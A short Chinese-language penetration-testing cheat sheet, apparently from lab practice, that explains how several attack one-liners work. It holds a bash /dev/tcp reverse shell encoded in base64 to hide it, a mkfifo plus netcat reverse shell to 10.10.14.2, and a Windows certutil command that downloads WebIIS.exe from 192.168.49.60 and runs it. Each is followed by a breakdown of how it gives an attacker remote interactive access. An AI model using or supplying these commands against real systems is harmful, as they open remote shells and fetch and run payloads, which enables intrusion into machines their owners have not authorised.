 ```
echo "bash -i  >& /dev/tcp/10.10.14.2/9001 0>&1  " | base64
```
### 原理

1. `bash -i >& /dev/tcp/10.10.14.2/5555 0>&1`
    
    - 利用 Bash 内置的 **/dev/tcp** 功能打开一个 TCP 连接
        
    - 将 stdin/stdout/stderr 直接绑定到这个连接，实现交互式 shell
        
2. `| base64`
    
    - 只是把命令字符串 **编码成 base64**，本身不执行
        
    - 解码后需要用 `bash -c "$(echo ... | base64 -d)"` 才能执行
        

⚡ 总结：利用 bash 内置 TCP 功能建立 shell，base64 只是编码/隐藏命令。



```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.2 5555 > /tmp/f 
```
### 原理

1. `rm /tmp/f; mkfifo /tmp/f`  
    删除已有的 `/tmp/f` 文件，然后创建一个 **命名管道**（FIFO）。命名管道可以让两个进程通过文件交换数据。
    
2. `cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.2 5555 > /tmp/f`  
    数据流如下：
    
    - `cat /tmp/f` 从命名管道读数据
        
    - 输出给 `/bin/sh -i`，启动一个 **交互式 shell**
        
    - `2>&1` 将标准错误重定向到标准输出
        
    - 通过 `nc`（netcat）发送到远程 IP/端口
        
    - `> /tmp/f` 把远程的数据写回 FIFO，实现 stdin/stdout 的循环
        

⚡ 总结：通过 FIFO + netcat 建立一个远程交互 shell。



```
certutil -f -urlcache -split \"http://192.168.49.60:8082/WebIIS.exe\" \"C:\\Windows\\Temp\\WebIIS.exe\" && C:\\Windows\\Temp\\WebIIS.exe
```
```
certutil -f -urlcache -split "http://192.168.49.60:8082/WebIIS.exe" "C:\Windows\Temp\WebIIS.exe" && C:\Windows\Temp\WebIIS.exe
```
